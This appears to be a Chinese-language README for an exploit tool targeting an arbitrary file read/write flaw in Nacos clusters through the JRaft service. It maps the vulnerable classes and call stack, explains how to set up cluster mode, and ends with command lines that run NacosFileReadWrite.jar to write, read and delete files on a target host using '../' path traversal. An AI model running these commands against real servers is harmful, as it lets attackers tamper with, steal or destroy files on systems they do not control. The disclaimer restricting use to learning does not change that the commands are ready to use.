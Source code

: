 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
 
任意文件读取走的是com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onRequest
ReadRequest和WriteRequest在com.alibaba.nacos.core.distributed.raft.NacosStateMachine#onApply中选择调用onApply还是onRequest
```

#### BasePersistentServiceProcessor的onApply调用堆栈

```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

#### 写入成功截图

![iShot_2024-08-26_17.40.21](./iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

#### 读取文件截图

![iShot_2024-08-29_13.11.33](./iShot_2024-08-29_13.11.33.png)

#### 删除文件截图

![iShot_2024-08-29_13.13.35](./iShot_2024-08-29_13.13.35.png)

![iShot_2024-08-29_13.14.39](./iShot_2024-08-29_13.14.39.png)

注意：工具仅供学习使用，请勿滥用，否则后果自负！

**食用方式 **

写文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 write ../../../../../../tmp/test.txt 12341123413
```

读文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 read ../../../../../../tmp/test.txt
```

删文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 delete ../../../../../../tmp/test.txt
```

[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)</br>
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

[奇安信攻防社区-Nacos (butian.net)](https://forum.butian.net/article/570)
